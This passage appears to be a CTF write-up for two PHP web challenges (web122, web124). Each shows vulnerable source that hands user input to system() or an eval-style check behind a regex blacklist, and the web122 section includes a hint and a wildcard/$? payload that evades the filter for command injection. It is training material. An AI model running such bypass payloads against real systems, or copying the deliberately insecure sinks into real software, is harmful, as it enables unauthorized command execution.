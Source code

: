 
## web122

```php

<?php
error_reporting(0);
highlight_file(__FILE__);
if(isset($_POST['code'])){
    $code=$_POST['code'];
    if(!preg_match('/\x09|\x0a|[a-z]|[0-9]|FLAG|PATH|BASH|PWD|HISTIGNORE|HISTFILESIZE|HISTFILE|HISTCMD|USER|TERM|HOSTNAME|HOSTTYPE|MACHTYPE|PPID|SHLVL|FUNCNAME|\/|\(|\)|\[|\]|\\\\|\+|\-|_|~|\!|\=|\^|\*|\x26|#|%|\>|\'|\"|\`|\||\,/', $code)){    
        if(strlen($code)>65){
            echo '<div align="center">'.'you are so long , I dont like '.'</div>';
        }
        else{
        echo '<div align="center">'.system($code).'</div>';
        }
    }
    else{
     echo '<div align="center">evil input</div>';
    }
}

将PWD禁掉了，但是没禁HOME
hint:
通过$?来实现的，$?是表示上一条命令执行结束后的传回值。通常0代表执行成功，非0代表执行有误，构造错误命令，使$?的结果为1，代替${##}来分割，可以用命令<A然后下一条命令中的$?就等价于1了

payload:code=<A;${HOME::$?}???${HOME::$?}?????${RANDOM::$?} ????.???
#可能存在成功的机会，不断刷新
```

## web124

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: 收集自网络
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-10-06 14:04:45

*/

error_reporting(0);
//听说你很喜欢数学，不知道你是否爱它胜过爱flag
if(!isset($_GET['c'])){
    show_source(__FILE__);
}else{
    //例子 c=20-1
    $content = $_GET['c'];
    if (strlen($content) >= 80) {
        die("太长了不会算");
    }
    $blacklist = [' ', '\t', '\r', '\n','\'', '"', '`', '\[', '\]'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $content)) {
            die("请不要输入奇奇怪怪的字符");
        }
    }
    //常用数学函数http://www.w3school.com.cn/php/php_ref_math.asp
```